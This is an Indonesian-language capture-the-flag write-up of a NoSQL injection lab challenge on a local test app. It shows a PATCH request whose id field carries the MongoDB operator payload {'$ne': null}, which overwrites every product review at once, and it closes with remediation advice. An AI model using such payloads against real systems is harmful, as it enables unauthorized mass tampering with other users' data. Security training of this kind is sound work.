




# NoSQL Manipulation

## Challenge Overview

**Judul:** NoSQL Manipulation

**Kategori:** Injection

**Kesulitan:** ⭐⭐⭐⭐ (4/6)

Challenge ini mengeksploitasi kerentanan **NoSQL Injection** untuk memanipulasi query sehingga bisa mengubah **semua review produk sekaligus**, padahal fitur normal hanya boleh mengedit satu review saja.

---

## Tools Used

* **Burp Suite / Interception Proxy** → menangkap & memodifikasi request `PATCH`.
* **Pengetahuan NoSQL Injection (MongoDB)** → terutama penggunaan operator query seperti `$ne`, `$gt`, dll.

---

## Step by Step Solution

### 1. Analisis Request Normal

Saat mengedit review, aplikasi mengirim request `PATCH` ke endpoint `/rest/products/reviews`. Contoh payload:

```http
PATCH /rest/products/reviews HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "id": "specific_review_id",
  "message": "updated_review_text"
}
```




---

### 2. Identifikasi Celah

Field `id` langsung diproses ke dalam query NoSQL (MongoDB). Jika input ini tidak difilter, maka kita bisa menyuntikkan operator MongoDB (`$ne`, `$gt`, `$or`, dll.).

---

### 3. Buat Payload NoSQL Injection

Untuk memaksa semua review ikut ter-update, saya mengganti `id` dengan operator `$ne`:

```json
"id": { "$ne": null }
```

Artinya: pilih semua dokumen dimana `id` ≠ `null`. Karena semua review punya `id` valid (tidak ada yang null), maka kondisi ini mengenai **seluruh review**.

---

### 4. Kirim Request yang Dimodifikasi

Payload lengkap:

```http
PATCH /rest/products/reviews HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "id": { "$ne": null },
  "message": "ak cantik"
}
```

Setelah dikirim, semua review di aplikasi berubah menjadi pesan `"ak cantik"`.



---

## Solution Explanation

* Aplikasi rentan karena input JSON (`id`) dipakai langsung dalam query MongoDB.
* Operator `$ne` membuat filter berlaku ke seluruh koleksi, sehingga update dijalankan massal.
* Backend tidak memiliki validasi untuk memastikan `id` hanya berupa string tertentu, bukan sebuah operator.

---

## Remediation

1. **Validasi Input**
   Batasi input agar hanya menerima string (UUID/ID) yang valid, bukan objek dengan operator NoSQL.

2. **Gunakan Parameterized Queries / ORM**
   Gunakan library yang aman dan otomatis memisahkan data dari query logic.

3. **Batasi Otorisasi**
   Pastikan hanya pemilik review yang bisa mengedit review tersebut.

4. **Testing & Auditing**
   Lakukan security testing untuk mendeteksi pola input berbahaya di endpoint yang menerima JSON.
